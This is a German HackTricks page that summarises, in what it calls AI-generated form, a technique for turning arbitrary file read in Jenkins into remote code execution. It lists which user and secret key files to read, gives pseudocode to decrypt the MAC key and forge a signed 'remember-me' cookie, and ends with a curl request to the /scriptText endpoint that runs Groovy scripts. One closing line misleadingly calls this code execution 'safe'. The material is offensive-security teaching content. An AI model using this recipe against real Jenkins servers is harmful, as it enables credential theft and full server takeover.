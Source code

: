 # Jenkins Arbitrary File Read to RCE via "Remember Me"

{% hint style="success" %}
Lerne & übe AWS Hacking:<img src="../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Lerne & übe GCP Hacking: <img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Überprüfe die [**Abonnementpläne**](https://github.com/sponsors/carlospolop)!
* **Tritt der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folge** uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Teile Hacking-Tricks, indem du PRs zu den** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repos einreichst.

</details>
{% endhint %}

In diesem Blogbeitrag ist es möglich, einen großartigen Weg zu finden, um eine Local File Inclusion-Schwachstelle in Jenkins in RCE zu verwandeln: [https://blog.securelayer7.net/spring-cloud-skipper-vulnerability/](https://blog.securelayer7.net/spring-cloud-skipper-vulnerability/)

Dies ist eine von KI erstellte Zusammenfassung des Teils des Beitrags, in dem das Erstellen eines beliebigen Cookies missbraucht wird, um RCE zu erhalten, indem ein lokales Datei-Lesen ausgenutzt wird, bis ich Zeit habe, eine eigene Zusammenfassung zu erstellen:

### Angriffsvoraussetzungen

* **Funktionsanforderung:** "Remember me" muss aktiviert sein (Standardeinstellung).
* **Zugriffslevel:** Angreifer benötigt Gesamt-/Lese-Berechtigungen.
* **Geheimer Zugriff:** Fähigkeit, sowohl binäre als auch textuelle Inhalte aus wichtigen Dateien zu lesen.

### Detaillierter Ausbeutungsprozess

#### Schritt 1: Datensammlung

**Benutzerinformationsabruf**

* Greife auf die Benutzerkonfiguration und Geheimnisse aus `$JENKINS_HOME/users/*.xml` für jeden Benutzer zu, um Folgendes zu sammeln:
* **Benutzername**
* **Benutzer-Seed**
* **Zeitstempel**
* **Passwort-Hash**

**Geheimschlüssel-Extraktion**

* Extrahiere kryptografische Schlüssel, die zum Signieren des Cookies verwendet werden:
* **Geheimschlüssel:** `$JENKINS_HOME/secret.key`
* **Master-Schlüssel:** `$JENKINS_HOME/secrets/master.key`
* **MAC-Schlüsseldatei:** `$JENKINS_HOME/secrets/org.springframework.security.web.authentication.rememberme.TokenBasedRememberMeServices.mac`

#### Schritt 2: Cookie-Fälschung

**Token-Vorbereitung**

*   **Berechne die Token-Ablaufzeit:**

{% code overflow="wrap" %}
```javascript
tokenExpiryTime = currentServerTimeInMillis() + 3600000  // Fügt eine Stunde zur aktuellen Zeit hinzu
```
{% endcode %}
*   **Verkette Daten für das Token:**

{% code overflow="wrap" %}
```javascript
token = username + ":" + tokenExpiryTime + ":" + userSeed + ":" + secretKey
```
{% endcode %}

**MAC-Schlüsselentschlüsselung**

*   **Entschlüssele die MAC-Schlüsseldatei:**

```javascript
key = toAes128Key(masterKey)  // Konvertiere den Master-Schlüssel in das AES128-Schlüssel-Format
decrypted = AES.decrypt(macFile, key)  // Entschlüssele die .mac-Datei
if not decrypted.hasSuffix("::::MAGIC::::")
return ERROR;
macKey = decrypted.withoutSuffix("::::MAGIC::::")
```

**Signaturberechnung**

*   **Berechne HMAC SHA256:**

```javascript
mac = HmacSHA256(token, macKey)  // Berechne HMAC mit dem Token und dem MAC-Schlüssel
tokenSignature = bytesToHexString(mac)  // Konvertiere das MAC in einen hexadezimalen String
```

**Cookie-Codierung**

*   **Generiere das endgültige Cookie:**

{% code overflow="wrap" %}
```javascript
cookie = base64.encode(username + ":" + tokenExpiryTime + ":" + tokenSignature)  // Base64-codiert die Cookie-Daten
```
{% endcode %}

#### Schritt 3: Codeausführung

**Sitzungsauthentifizierung**

* **Abrufen von CSRF- und Sitzungstoken:**
* Mache eine Anfrage an `/crumbIssuer/api/json`, um `Jenkins-Crumb` zu erhalten.
* Erfasse `JSESSIONID` aus der Antwort, die zusammen mit dem "remember-me"-Cookie verwendet wird.

**Befehlsausführungsanfrage**

*   **Sende eine POST-Anfrage mit Groovy-Skript:**

```bash
curl -X POST "$JENKINS_URL/scriptText" \
--cookie "remember-me=$REMEMBER_ME_COOKIE; JSESSIONID...=$JSESSIONID" \
--header "Jenkins-Crumb: $CRUMB" \
--header "Content-Type: application/x-www-form-urlencoded" \
--data-urlencode "script=$SCRIPT"
```

* Das Groovy-Skript kann verwendet werden, um systemweite Befehle oder andere Operationen innerhalb der Jenkins-Umgebung auszuführen.

Der bereitgestellte Beispiel-curl-Befehl zeigt, wie man eine Anfrage an Jenkins mit den erforderlichen Headern und Cookies sendet, um beliebigen Code sicher auszuführen.

{% hint style="success" %}
Lerne & übe AWS Hacking:<img src="../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Lerne & übe GCP Hacking: <img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Überprüfe die [**Abonnementpläne**](https://github.com/sponsors/carlospolop)!
* **Tritt der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folge** uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Teile Hacking-Tricks, indem du PRs zu den** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repos einreichst.

</details>
{% endhint %}
